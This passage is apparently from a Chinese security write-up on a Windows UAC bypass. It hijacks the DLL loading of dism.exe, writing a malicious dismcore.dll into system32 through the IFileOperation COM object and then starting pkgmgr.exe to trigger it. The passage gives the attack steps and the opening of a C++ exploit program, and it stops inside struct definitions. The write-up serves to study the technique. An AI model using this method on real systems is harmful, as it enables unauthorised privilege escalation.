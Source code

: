 他发现，除此之外在下面有五个个dll是在system32下的一个叫dism的文件夹里面加载的；

我们都知道windows默认情况下dll加载优先级中：可执行文件所在的目录是优先级是最早的；那么dism.exe 所在的目录是system32,也就是说这里加载优先级最高的目录应该是system32;那么是不是可以构成了dll劫持的条件了；欸，一测发现，的确如此；



# 0x03 落地实现以及测试

要实现这个劫持提权，我们需要做的准备工作:

1、要把恶意dll文件写入system32路径，这个路径需要高权限才能写入，这里可以使用IFileOperation com组件越权写；

2、运行pkgmgr.exe 程序



这里我们也自构代码实现下(当然也可以直接使用uacme)：

## 一、EXE

编写exe,实现利用IFileOperation越权写``dismcore.dll``文件到system32下，然后运行pkgmgr.exe（注意这里有一个细节，不能直接空运行，空运行pkgmgr.exe是不会调用dism.exe，只会弹出来个带ui的help，这里笔者使用的测试命令是  ``pkgmgr /iu:TelnetClient``为windows安装telnet）；

```c++
#include <windows.h>
#include <shobjidl.h>
#include <atlbase.h>

#define RTL_MAX_DRIVE_LETTERS 32
#define GDI_HANDLE_BUFFER_SIZE32  34
#define GDI_HANDLE_BUFFER_SIZE64  60
#define GDI_BATCH_BUFFER_SIZE 310

#define NtCurrentProcess() ( (HANDLE)(LONG_PTR) -1 )
#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

#if !defined(_M_X64)
#define GDI_HANDLE_BUFFER_SIZE      GDI_HANDLE_BUFFER_SIZE32
#else
#define GDI_HANDLE_BUFFER_SIZE      GDI_HANDLE_BUFFER_SIZE64
#endif

typedef ULONG GDI_HANDLE_BUFFER32[GDI_HANDLE_BUFFER_SIZE32];
typedef ULONG GDI_HANDLE_BUFFER64[GDI_HANDLE_BUFFER_SIZE64];
typedef ULONG GDI_HANDLE_BUFFER[GDI_HANDLE_BUFFER_SIZE];

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING;
typedef UNICODE_STRING* PUNICODE_STRING;


typedef struct _STRING {
    USHORT Length;
    USHORT MaximumLength;
    PCHAR Buffer;
} STRING;
typedef STRING* PSTRING;

typedef struct _CLIENT_ID {
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
```